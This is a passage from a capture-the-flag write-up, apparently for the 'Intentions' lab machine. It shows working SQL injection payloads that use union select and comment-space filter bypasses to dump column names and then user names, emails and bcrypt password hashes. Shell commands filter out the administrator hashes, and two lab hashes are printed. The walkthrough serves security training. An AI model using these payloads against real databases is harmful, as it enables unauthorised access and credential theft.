 Dumped all column names from the ‘users’ table.

```bash
{"genres":"food')/**/union/**/select/**/1,2,group_concat(column_name),4,5/**/from/**/information_schema.columns/**/where/**/table_schema='intentions'/**/and/**/table_name='users'#"}
```

<img src="/assets/img/intentions/Untitled 13.png" alt="Untitled 13.png" style="width:800px;">

Yes sir! We successfully dumped the ‘users’ table!

```bash
{"genres":"food')/**/union/**/select/**/1,2,group_concat(name,':',email,':',password,':',admin),4,5/**/from/**/intentions.users#"}
```

<img src="/assets/img/intentions/Untitled 14.png" alt="Untitled 14.png" style="width:800px;">

Formatted the output to differentiate between administrative and non-administrative users, as cracking bcrypt hashes is out of the equation.

```bash
cat intentions.users | tr "," "\n" | grep 1$ > admin.list

cat admin.list                                               
steve:steve@intentions.htb:$2y$10$M\/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa:1
greg:greg@intentions.htb:$2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m:1
```

For learning’s sake I tried to exploit this SQL injection with sqlmap but this is as far as I could get. If you know what is wrong please DM me in LinkedIn XD.
